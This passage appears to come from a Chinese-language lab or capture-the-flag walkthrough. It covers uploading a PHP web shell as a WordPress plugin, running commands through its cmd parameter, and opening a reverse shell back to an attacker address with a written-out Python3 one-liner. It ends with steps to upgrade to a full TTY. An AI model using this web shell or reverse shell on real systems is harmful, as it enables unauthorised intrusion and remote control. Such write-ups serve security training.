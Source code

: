 压缩上传`zip shell.zip shell.php`，激活

访问： http://172.16.42.204/wordpress/wp-content/plugins/shell.php

执行命令：`http://172.16.42.204/wordpress/wp-content/plugins/shell.php?cmd=whoami`





## 远程控制



### python3反弹shell

查看是否存在nc： `http://172.16.42.204/wordpress/wp-content/plugins/shell.php?cmd=which%20nc`

发现存在，那么用nc反弹

这次用python3反弹shell

```
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.42.147",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```







## 升级full tty

### 修改为bash

确定存在bash

```
[root@kali ~]# ls /bin/bash
/bin/bash
```

因为目标机器是bash，我们是用的zsh，所以切换到bash

```
chsh  -s /bin/bash
```

重启

查看是否切换成功

```
└─# echo $SHELL
/bin/bash
```





